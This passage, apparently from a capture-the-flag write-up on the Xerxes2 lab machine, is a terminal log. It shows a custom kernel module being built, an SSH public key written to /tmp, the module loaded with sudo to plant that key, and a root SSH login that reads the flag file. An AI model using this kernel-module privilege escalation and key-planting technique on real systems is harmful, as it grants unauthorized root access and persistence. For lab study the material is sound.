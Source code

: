 ```bash
korenchkin@xerxes2:~/kern$ vi rooted.c

korenchkin@xerxes2:~/kern$ vi Makefile

korenchkin@xerxes2:~/kern$ make
make -C /lib/modules/3.2.0-4-686-pae/build M=/home/korenchkin/kern modules
make[1]: Entering directory `/usr/src/linux-headers-3.2.0-4-686-pae'
  CC [M]  /home/korenchkin/kern/rooted.o
  Building modules, stage 2.
  MODPOST 1 modules
  CC      /home/korenchkin/kern/rooted.mod.o
  LD [M]  /home/korenchkin/kern/rooted.ko
make[1]: Leaving directory `/usr/src/linux-headers-3.2.0-4-686-pae'

korenchkin@xerxes2:~/kern$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC6sCFrz036WAchGk66yROuY+hePiULr49D1E97wuK0mK4Uw0J+4u1ngDVw+h8xwtpxPZkOWcn7s86OkXcEkWzGoduC1Y+YMP0XnQFG4hdeX4yNypaAsLKZss6tTHe5kHzbTdiOUthSmiJHwyl39TXibSBILTnMOLaxzLM17xUCfJviRm2mOAq6uELYPPf8thzqVeBoIsdXfjh8QeLMRHloyjGe1ZeY0m4pqwg9d2azaBAirjBMv0cyk+1w51SNR61EQ6SRtc6BE7ayc6C+MZW4TkP/lwOQLH7CXrEoyL3bDskD6c9563jRSLtiVfzjfkjoyUDiTCWv/ThirZMqSot/" > /tmp/pubkey

korenchkin@xerxes2:~/kern$ sudo insmod rooted.ko

korenchkin@xerxes2:~/kern$ dmesg | tail
[   14.512040] eth0: no IPv6 routers present
[  290.023022] Clocksource tsc unstable (delta = 4686567555 ns)
[  290.025022] Switching to clocksource acpi_pm
[57198.109946] bf[25367]: segfault at 40062000 ip 40062000 sp bfc6282c error 14
[68192.983366] hello: module license 'unspecified' taints kernel.
[68192.983369] Disabling lock debugging due to kernel taint
[68192.983637] Loading hello module...
[74155.086393] Loading rooted module...
[74155.086397] Call Usermodehelper...
[74155.086449] Done usermodehelper...

korenchkin@xerxes2:~/kern$ logout
Connection to 192.168.56.102 closed.

root@kali:~/Desktop/xeres2# ssh root@192.168.56.102 -i delacroix

Welcome to xerxes2.
      XERXES wishes you
       a pleasant stay.
____   ___  ____  ___  __ ____   ___  ____     ____     ____
`MM(   )P' 6MMMMb `MM 6MM `MM(   )P' 6MMMMb   6MMMMb\  6MMMMb
 `MM` ,P  6M'  `Mb MM69 "  `MM` ,P  6M'  `Mb MM'    ` MM'  `Mb
  `MM,P   MM    MM MM'      `MM,P   MM    MM YM.           ,MM
   `MM.   MMMMMMMM MM        `MM.   MMMMMMMM  YMMMMb      ,MM'
   d`MM.  MM       MM        d`MM.  MM            `Mb   ,M'
  d' `MM. YM    d9 MM       d' `MM. YM    d9 L    ,MM ,M'
_d_  _)MM_ YMMMM9 _MM_    _d_  _)MM_ YMMMM9  MYMMMM9  MMMMMMMM

root@xerxes2:~# id
uid=0(root) gid=0(root) groups=0(root)

root@xerxes2:~# cat /root/flag.txt
____   ___  ____  ___  __ ____   ___  ____     ____     ____
`MM(   )P' 6MMMMb `MM 6MM `MM(   )P' 6MMMMb   6MMMMb\  6MMMMb
 `MM` ,P  6M'  `Mb MM69 "  `MM` ,P  6M'  `Mb MM'    ` MM'  `Mb
  `MM,P   MM    MM MM'      `MM,P   MM    MM YM.           ,MM
   `MM.   MMMMMMMM MM        `MM.   MMMMMMMM  YMMMMb      ,MM'
   d`MM.  MM       MM        d`MM.  MM            `Mb   ,M'
  d' `MM. YM    d9 MM       d' `MM. YM    d9 L    ,MM ,M'
_d_  _)MM_ YMMMM9 _MM_    _d_  _)MM_ YMMMM9  MYMMMM9  MMMMMMMM
```
